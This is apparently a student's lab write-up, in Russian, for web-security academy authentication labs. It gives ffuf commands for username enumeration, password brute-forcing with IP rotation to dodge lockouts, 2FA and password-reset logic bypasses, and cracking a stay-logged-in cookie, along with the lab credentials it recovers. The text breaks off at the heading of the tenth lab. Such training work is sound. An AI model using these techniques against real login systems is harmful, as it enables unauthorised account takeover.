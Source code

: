 # Authentication attacks

## 1. Lab: Username enumeration via different responses

бурпом угнал запрос, потом ffuf сначала подобрал юзернейм, потом пароль

asia:klaster
```
ffuf -request req.txt -request-proto https -w users.txt -fs 3140

ffuf -request req.txt -request-proto https -w pass.txt -fc 200
```

## 2. Lab: 2FA simple bypass

Просто вместо того, чтобы вводить 2fa перейти на /my-account.

## 3. Lab: Password reset broken logic

В форме отправки сброса пароля явно указывается ник того, кому пароль скинуть. Указываем там carlos и гг

## 4. Lab: Username enumeration via subtly different responses

Долго повозившись с регексами, сделал такой запрос в ffuf

```
ffuf -request req.txt -request-proto https -w users.txt -fr 'Invalid username or password\.'
```

Далее пароль (уже попроще)

azureuser:cheese

```
ffuf -request req.txt -request-proto https -w pass.txt -c
```


## 5. Lab: Username enumeration via response timing

Так как надо ротировать айпишник, чтоб не заблочиться, сгенерил список из 101 айпишника и засунул его питчфорком в ffuf.
Теперь для каждого юзернейма будет новый айпишник. Чем не хайп.

```
ffuf -request req.txt -request-proto https \
  -w users.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c  -ft '<150'
```

На никнейме `au` таймаутнулся, так что буду считать, что он мне и нужен (в пароль я вбивал 3000 символов)

Правильно введенный пароль стандартно редиректит, нашел его таким запросом

au:12345678

```
ffuf -request req.txt -request-proto https \
  -w pass.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c -fr 'You have made too many incorrect login attempts'
```

## 6. Lab: Broken brute-force protection, IP block

Так как механизм таков, что раз в несколько раз надо опять входить - опять сделал pitchfork,
только на этот раз просто сделал каждый второй юзер пасс - wiener:peter, и в выводе искал просто 
три синих подряд

![2025-10-22-at-14-59-23.png](Nikolaev_mikhail_pr5-img/2025-10-22-at-14-59-23.png)

```
ffuf -request req.txt -request-proto https \
  -w carlos_wiener_200.txt:USERFUZZ -w pass_brute.txt:PASSFUZZ \
  -mode pitchfork -t 1 -c
```

## 7. Lab: Username enumeration via account lock

Заметил, что на несуществующие юзернеймы нет блока по количеству попыток входа. Победа??

```
ffuf -request req.txt -request-proto https \
  -w users.txt:USERFUZZ -w empty.txt:PASSFUZZ \
  -mode clusterbomb -c -fs 3132
```

В empty 10 рандомных строк, так что каждый юзернейм 10 раз повторился. Фильтруя по обычному размеру ответа
я нашел, что в случае с юзернеймом argentina размер больше, а в сообщении находится `You have made too many incorrect login attempts`

Теперь перебираю пароли. Сделал фильтр на ошибку по таймауту и после нескольких прогонов заметил, что только один пароль каждый раз возвращается.

argentina:starwars

```
ffuf -request req.txt -request-proto https \
  -w pass.txt \
  -c -fr 'You have made too many incorrect login'
```

## 8. Lab: 2FA broken logic

Заметил, что в ручке GET /login2 в куки можно поставить ник. Таким образом я туда вставил ник carlos и загенерил ему 2FA

Далее со своего акка взял request, поменял на carlos ник, забрутил его ffuf

```
ffuf -request req.txt -request-proto https \
  -w ~/red/SecLists/Fuzzing/4-digits-0000-9999.txt \
  -c -fc 200
```

## 9. Lab: Brute-forcing a stay-logged-in cookie

Тут прикол в том, что в куки есть поле stay-logged-in, которое в формате base64(username:md5(password)).

Потому я написал bash скрипт, который создал мне вордлист для этого поля (change.sh) на основе имеющегося вордлиста пароля и юзера carlos.

Далее я добавил флаг -r в ffuf для того, чтобы следовать редиректам, и догадался отрубить куки "session" потому что оно мешало. Итого получил такой запрос

```
➜ ffuf -request req.txt -request-proto https \
  -w payloads.txt \
  -c -r -mr "Update email"
```

## 10. Lab: Offline password cracking
